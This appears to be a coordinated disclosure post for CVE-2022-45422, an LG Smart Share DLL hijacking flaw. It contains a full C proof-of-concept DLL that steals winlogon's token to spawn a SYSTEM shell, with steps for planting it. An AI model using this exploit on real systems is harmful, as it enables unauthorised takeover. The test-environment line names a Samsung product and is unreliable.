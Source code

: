 ```yaml
---
title : "CVE-2022-45422: LG Smart Share Local Privilege Escalation Vulnerability"
excerpt: "CVE-2022-45422"

categories:
    - "0-day"
tags:
    - [LG, 0-day, CVE, CVE-2022-45422, EoP, LPE, PE, DLL hijacking, Mitre]
---
```


## 0x01: Details

- Title: LG Smart Share Local Privilege Escalation Vulnerability
- CVE ID: CVE-2022-45422
- Vendor ID : LVE-HOT-220005
- Advisory Published: 2022/11/24
- Advisory URL : [https://lgsecurity.lge.com/bulletins/pc#updateDetails](https://lgsecurity.lge.com/bulletins/pc#updateDetails)
- CVSS : 7.8 HIGH(CVSS Version 3.x)

## 0x02: Test Environment

- Samsung Smart Switch for Windows : 4.3.22063_6
- OS : Windows 10 Pro 64-bit 21H2 (build 19044.1826)

## 0x03: Vulerability details

When LG SmartShare is installed, local privilege escalation is possible through DLL Hijacking attack.

## 0x04: Techincal description

When installing the LG Smart Share program, various DLLs are loaded. At this time, `!.DLL` is loaded. This `!.DLL` is loaded from the directory registered in user environment variable and system environment variable. By locating the `!.DLL` created by an attacker, an installer with administrator privileges can load this DLL and escalate privileges to SYSTEM, thereby launching a privilege escalation attack by DLL hijacking.

I discovered this vulnerability through [Process Monitor](https://docs.microsoft.com/en-us/sysinternals/downloads/procmon).

![Untitled](/files/CVE-2022-45422%20LG%20Smart%20Share%20Local%20Privilege%20Escalation%20Vulnerability/Untitled.png)

## 0x05: Proof-of-Concept (PoC)

```c
#include <stdio.h>
#include <windows.h>
#include <Psapi.h>
#include <Tlhelp32.h>
#include <sddl.h>

#pragma comment (lib,"advapi32.lib")

int exploit() {
	DWORD lpidProcess[2048], lpcbNeeded, cProcesses;
	EnumProcesses(lpidProcess, sizeof(lpidProcess), &lpcbNeeded);
	HANDLE hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);

	PROCESSENTRY32 p32;
	p32.dwSize = sizeof(PROCESSENTRY32);

	int processWinlogonPid;

	if (Process32First(hSnapshot, &p32)) {
		do {
			if (wcscmp(p32.szExeFile, L"winlogon.exe") == 0) {
				printf("[+] Located winlogon.exe by process name (PID %d)\n", p32.th32ProcessID);
				processWinlogonPid = p32.th32ProcessID;
				break;
			}
		} while (Process32Next(hSnapshot, &p32));

		CloseHandle(hSnapshot);
	}

	LUID luid;
	HANDLE currentProc = OpenProcess(PROCESS_ALL_ACCESS, 0, GetCurrentProcessId());

	if (currentProc) {
		HANDLE TokenHandle = NULL;
		BOOL hProcessToken = OpenProcessToken(currentProc, TOKEN_ADJUST_PRIVILEGES | TOKEN_QUERY, &TokenHandle);
		if (hProcessToken) {
			BOOL checkToken = LookupPrivilegeValue(NULL, L"SeDebugPrivilege", &luid);

			if (!checkToken) {
				printf("[+] Current process token already includes SeDebugPrivilege\n");
			}
			else {
				TOKEN_PRIVILEGES tokenPrivs;

				tokenPrivs.PrivilegeCount = 1;
				tokenPrivs.Privileges[0].Luid = luid;
				tokenPrivs.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;

				BOOL adjustToken = AdjustTokenPrivileges(TokenHandle, FALSE, &tokenPrivs, sizeof(TOKEN_PRIVILEGES), (PTOKEN_PRIVILEGES)NULL, (PDWORD)NULL);

				if (adjustToken != 0) {
					printf("[+] Added SeDebugPrivilege to the current process token\n");
				}
			}
			CloseHandle(TokenHandle);
		}
	}
	CloseHandle(currentProc);

	HANDLE hProcess = NULL;
	HANDLE TokenHandle = NULL;
	HANDLE NewToken = NULL;
	BOOL OpenToken;
	BOOL Impersonate;
	BOOL Duplicate;

	hProcess = OpenProcess(PROCESS_ALL_ACCESS, TRUE, processWinlogonPid);

	if (!hProcess) {
		printf("[-] Failed to obtain a HANDLE to the target PID\n");
		return -1;
	}

	printf("[+] Obtained a HANDLE to the target PID\n");

	OpenToken = OpenProcessToken(hProcess, TOKEN_DUPLICATE | TOKEN_ASSIGN_PRIMARY | TOKEN_QUERY, &TokenHandle);

	if (!OpenToken) {
		printf("[-] Failed to obtain a HANDLE to the target TOKEN %d\n", GetLastError());
	}

	printf("[+] Obtained a HANDLE to the target TOKEN\n");

	Impersonate = ImpersonateLoggedOnUser(TokenHandle);

	if (!Impersonate) {
		printf("[-] Failed to impersonate the TOKEN's user\n");
		return -1;
	}

	printf("[+] Impersonated the TOKEN's user\n");

	Duplicate = DuplicateTokenEx(TokenHandle, TOKEN_ALL_ACCESS, NULL, SecurityImpersonation, TokenPrimary, &NewToken);

	if (!Duplicate) {
		printf("[-] Failed to duplicate the target TOKEN\n");
		return -1;
	}

	printf("[+] Duplicated the target TOKEN\n");

	BOOL NewProcess;

	STARTUPINFO lpStartupInfo = { 0 };
	PROCESS_INFORMATION lpProcessInformation = { 0 };

	lpStartupInfo.cb = sizeof(lpStartupInfo);

	NewProcess = CreateProcessWithTokenW(NewToken, LOGON_WITH_PROFILE, L"C:\\Windows\\System32\\cmd.exe", NULL, 0, NULL, NULL, &lpStartupInfo, &lpProcessInformation);

	if (!NewProcess) {
		printf("[-] Failed to create a SYSTEM process\n");
		return -1;
	}

	printf("[+] Created a SYSTEM process\n");

	CloseHandle(NewToken);
	CloseHandle(hProcess);
	CloseHandle(TokenHandle);

	return 0;
}

BOOL APIENTRY DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpReserved) {
    switch (fdwReason) {
        case DLL_PROCESS_ATTACH: {
			exploit();
			exit(-1);
            break;
        }

        case DLL_THREAD_ATTACH: {
            break;
        }

        case DLL_THREAD_DETACH: {
            break;
        }

        case DLL_PROCESS_DETACH: {
            break;
        }
    }
    return TRUE;
}
```

1. Use Visual Studio 2019
2. Compile the project in the DLL directory in x86 Release mode
3. Rename the compiled dll to `!.Dll` and place it in the `%USERPROFILE%\AppData\Local\Microsoft\WindowsApps` directory
4. Run LG Smart Share Installer

## 0x06: Affected Products

This vulnerability affects the following product:

- LG Smart Share Version ≤ 2.3.1712.1201

## 0x07: Credit information

HeeChan Kim (@heegong123) of TeamH4C

## 0x08: TimeLine

- 2022/06/09 : First time contacted via LG Product Security.
- 2022/06/10 : I received a call from LG Product Security to analyze the vulnerability.
- 2022/06/28 : I recevied a file which is patched via LG Product Security.
- 2022/11/21 : The vulnerability has been patched, and CVE-2022-45422 (LVE-HOT-220005) has been issued.

## 0x09: Reference

- [https://lgsecurity.lge.com/bulletins/pc#updateDetails](https://lgsecurity.lge.com/bulletins/pc#updateDetails)
- [https://www.cve.org/CVERecord?id=CVE-2022-45422](https://www.cve.org/CVERecord?id=CVE-2022-45422)
- [https://nvd.nist.gov/vuln/detail/CVE-2022-45422](https://nvd.nist.gov/vuln/detail/CVE-2022-45422)
